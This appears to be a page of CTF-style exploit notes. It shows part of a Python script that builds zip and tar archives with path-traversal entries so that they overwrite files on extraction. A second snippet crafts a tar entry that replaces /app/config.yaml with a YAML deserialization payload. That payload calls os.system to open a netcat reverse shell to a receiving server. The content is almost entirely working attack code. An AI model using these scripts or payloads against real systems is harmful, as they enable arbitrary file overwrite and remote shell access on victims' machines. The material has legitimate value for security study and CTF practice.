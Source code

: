 ```python

    try:
        if "-" not in args.levels:
            start = int(args.levels)
            end = int(args.levels) + 1
        else:
            start, end = args.levels.split("-")
            start = int(start)
            end = int(end) + 1
    except ValueError:
        sys.exit("Please specify a single level (e.g. 3) or " +
                 "a level range (e.g. 1-10) for path traversal.")

    path = args.path + os.path.basename(args.file_to_add)

    if ext in [".zip", ".jar", ".war", ".apk"]:
        print("Creating archive " + args.archive)
        zipf = zipfile.ZipFile(args.archive, mode[ext])
        for i in range(start, end):
            fullpath = make_traversal_path(path, level=i, os=args.os)
            print("[+] Adding " + fullpath)
            zipf.write(args.file_to_add, fullpath)
        zipf.close()
    elif ext in [".tar", ".bz2", ".gz", ".tgz"]:
        print("Creating archive " + args.archive)
        tarf = tarfile.open(args.archive, mode[ext])
        for i in range(start, end):
            fullpath = make_traversal_path(path, level=i, os=args.os)
            print("[+] Adding " + fullpath)
            tarf.add(args.file_to_add, fullpath)
        tarf.close()
    else:
        sys.exit("Extention '" + ext + "' not supported.")


if __name__ == '__main__':
    main()
```

I forgot where I found this script :( , if you know please contact me!

```bash
python3 maliciouarchive.py config.yaml overwrite.tar -l 2
```

Or u can generate like this! ( found from discord)

```python
import tarfile
import io
import os

t = tarfile.TarFile('1.tar', 'w')
info = tarfile.TarInfo("/app/config.yaml")
payload= rb"""
yo:
    !!python/object/apply:os.system
    - "busybox nc server-to-receive-shell 8080 -e sh && sleep 2"
"""
# import yaml
# print(yaml.load(io.BytesIO(payload), Loader=yaml.Loader))
info.size=len(payload)
info.mode=0o444
# info.type=tarfile.SYMTYPE
t.addfile(info, io.BytesIO(payload))
```